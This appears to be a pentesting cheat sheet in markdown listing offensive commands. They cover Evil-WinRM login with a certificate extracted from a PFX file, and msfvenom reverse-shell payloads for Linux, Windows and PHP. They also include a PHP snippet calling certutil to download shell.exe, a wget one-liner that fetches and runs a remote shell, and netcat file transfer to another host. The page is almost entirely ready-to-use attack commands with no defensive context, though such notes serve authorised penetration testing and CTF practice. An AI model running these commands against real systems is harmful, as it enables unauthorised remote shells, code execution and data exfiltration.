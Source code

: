 ### Evil-WINRM (SSL)

Note: if have PFX file, we can evil-winrm without password

```bash
openssl pkcs12 -in bla.pfx -nocerts -out key.pem -nodes
```

```bash
openssl pkcs12 -in bla.pfx -nokeys -out cert.pem
```

```bash
evil-winrm -i $ip -c cert.pem -k key.pem -S
```

### MSFV Shells

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$myip LPORT=$myport -f elf -o shell
```

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$myip LPORT=$myport -f exe > shell.exe
```

```bash
msfvenom -p php/shell/reverse_tcp LHOST=$myip LPORT=$myport -f raw
```

### Certutil

```bash
certutil -urlcache -split -f http://$ip/nc.exe
```

```bash
<?php 
$exec = system('certutil.exe -urlcache -split -f "http://$myip/shell.exe" shell.exe', $val); 
?>
```

### Wget shell and execute one-liner

```bash
wget -P /tmp http://kali/shell && chmod +x /tmp/shell && /tmp/shell
```

### Transfer file using NC

Receiver:

```bash
nc -l -p 80 > file
```

Sender:

```bash
nc -w 3 $ip 80 < file
```
